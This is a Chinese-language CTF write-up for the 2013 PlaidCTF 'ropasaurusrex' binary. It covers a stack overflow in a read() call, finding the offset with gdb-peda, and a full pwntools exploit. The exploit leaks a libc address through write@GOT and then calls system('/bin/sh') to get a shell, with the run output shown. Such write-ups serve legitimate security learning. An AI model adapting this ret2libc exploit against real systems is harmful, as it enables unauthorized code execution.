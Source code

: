 ```yaml
---
title: 2013plaidctf-ropasaurusrex
date: 2018-03-17 19:30:56
tags: CTF

---
```


0x00 前言
-------

练练手~

0x01 程序分析
---------

    mask@mask-virtual-machine:~/CTF/2013plaidctfropasaurusrex$ ./ropasaurusrex 
    1
    WIN
    mask@mask-virtual-machine:~/CTF/2013plaidctfropasaurusrex$ ./ropasaurusrex 
    2
    WIN
    mask@mask-virtual-machine:~/CTF/2013plaidctfropasaurusrex$ ./ropasaurusrex 
    3
    WIN

<!--more-->

拉到IDA查看：

```
int __cdecl main()
{
  sub_80483F4();
  return write(1, "WIN\n", 4u);
}
```

跟进：

    ssize_t sub_80483F4()
    {
      char buf; // [sp+10h] [bp-88h]@1
    
      return read(0, &buf, 256u);
    }

很明显，read函数能够造成溢出


那么gdb开始调试分析：

先随机生成300个字符串吧

    mask@mask-virtual-machine:~/CTF/2013plaidctfropasaurusrex$ gdb ./ropasaurusrex 
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./ropasaurusrex...(no debugging symbols found)...done.
    gdb-peda$ pattern create 300
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'


运行时输入，然后断下来后计算偏移：
​    
```
gdb-peda$ r
Starting program: /home/mask/CTF/2013plaidctfropasaurusrex/ropasaurusrex 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x100 
EBX: 0x0 
ECX: 0xbfffef90 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
EDX: 0x100 
ESI: 0xb7fba000 --> 0x1b1db0 
EDI: 0xb7fba000 --> 0x1b1db0 
EBP: 0x41514141 ('AAQA')
ESP: 0xbffff020 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
EIP: 0x41416d41 ('AmAA')
EFLAGS: 0x10217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41416d41
[------------------------------------stack-------------------------------------]
0000| 0xbffff020 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0004| 0xbffff024 ("AASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0008| 0xbffff028 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0012| 0xbffff02c ("TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0016| 0xbffff030 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0020| 0xbffff034 ("ArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0024| 0xbffff038 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0028| 0xbffff03c ("AAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
gdb-peda$ A%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%
Ambiguous command "A%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%": .
gdb-peda$ pattern offset 0x41416d41
1094806849 found at offset: 140
gdb-peda$ 
```


然后编写exp：
​    
```
from pwn import *

elf = ELF('./ropasaurusrex')

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88

# p = remote(args.host, args.port)

p = process('./ropasaurusrex')

# p = remote('127.0.0.1',10002)

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']
payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' 
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' 
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)

p.interactive()
```

执行：
```
mask@mask-virtual-machine:~/CTF/2013plaidctfropasaurusrex$ python exp.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './ropasaurusrex': pid 13361
[*] '/lib/i386-linux-gnu/libc.so.6'
Arch: i386-32-little
RELRO:Partial RELRO
Stack:Canary found
NX:   NX enabled
PIE:  PIE enabled
[*] Switching to interactive mode
$ id
uid=1000(mask) gid=1000(mask) 组=1000(mask),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
mask
$  
```


